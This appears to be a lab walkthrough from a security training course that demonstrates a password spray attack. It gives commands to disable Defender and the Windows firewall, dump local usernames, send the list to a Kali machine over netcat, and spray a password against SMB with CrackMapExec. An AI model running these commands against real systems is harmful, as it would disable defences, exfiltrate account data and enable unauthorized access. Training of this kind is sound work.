 
# Password Spray

First, let’s disable Defender. Simply run the following from an Administrator PowerShell prompt:

`Set-MpPreference -DisableRealtimeMonitoring $true`

This will disable Defender for this session.

If you get angry red errors, that is Ok, it means Defender is not running.

Let's get started by opening a Terminal as Administrator

![](attachments/Clipboard_2020-06-12-10-36-44.png)

Now, let's open a command Prompt:

![](../AppLocker/attachments/cmd-command-prompt.png)

C:\Windows\system32> `cd \tools`

C:\Tools> `200-user-gen.bat`

It should look like this:

![](attachments/Clipboard_2020-06-16-10-26-22.png)

Now, we will need to start PowerShell to run DumpUsers.ps1. For simplicity, we will use the script that gets a list of usernames from the windows host and saves it to the C:\temp\UserList.txt file.


C:\Tools> `powershell`

PS C:\Tools> `Set-ExecutionPolicy Unrestricted`

PS C:\Tools> `.\DumpUsers.ps1`

It should look like this:

![](attachments/Clipboard_2020-06-16-10-37-09.png)

Next we are going to password spray against SMB (port 445) which we know is open by the results of previous NMAP scan.
For now lets transfer a list of usernames to our kali machine by netcat. To do it we need the ip of our machine and run the following command.

`nc -lv -p 2222 > users`

![](attachments/kali-netcat.png)

Now switch to command prompt on windows machine. 

![](../AppLocker/attachments/cmd-command-prompt.png)

Disable firewall.
C:\Tools> `netsh advfirewall set allprofiles state off`

![](attachments/disable-firewall.png)

And transfer the file to kali by running the next command 

C:\Tools> `nc <IP> 2222 < ..\temp\UserList.txt` (Cancel out netcat (Ctrl-C) after 3 seconds.).

![](attachments/win-netcat.png)

We will use the tool CrackMapExec for password spray attack over smb. The tool supports other protocols like ssh, winrm, ldap etc. 

The command looks like this - `cme smb <IP> -u users -p Winter2020 --shares`.

![](attachments/cme-result.png)

We can see that the user Cristopher was succesfully authenticated to our target machine.

Now we need to clean up and make sure the system is ready for the rest of the labs:

PS C:\Tools> `exit`

C:\Tools> `user-remove.bat`

![](attachments/Clipboard_2020-06-16-10-39-16.png)




